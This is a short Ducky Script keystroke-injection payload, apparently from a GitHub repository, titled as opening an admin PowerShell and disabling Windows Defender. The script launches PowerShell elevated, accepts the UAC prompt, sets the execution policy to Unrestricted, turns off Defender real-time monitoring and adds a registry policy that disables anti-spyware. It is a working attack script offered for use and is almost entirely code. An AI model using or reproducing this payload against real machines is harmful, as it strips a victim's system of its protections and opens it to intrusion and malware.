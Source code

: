 ## Opening a Powershell as Admin + Disable Windows Defender
*Note: only works if no password is required for admin*

    DELAY 2000
    GUI r
    DELAY 3000
    STRING powershell Start-Process powershell -Verb runAs
    ENTER
    DELAY 3000
    ALT y
    DELAY 3000
    LEFTARROW
    DELETE
    ENTER
    DELAY 3000
    STRING Set-ExecutionPolicy Unrestricted -Force
    ENTER
    DELAY 3000
    STRING Set-MpPreference -DisableRealtimeMonitoring $true -Force
    ENTER
    DELAY 3000
    STRING New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
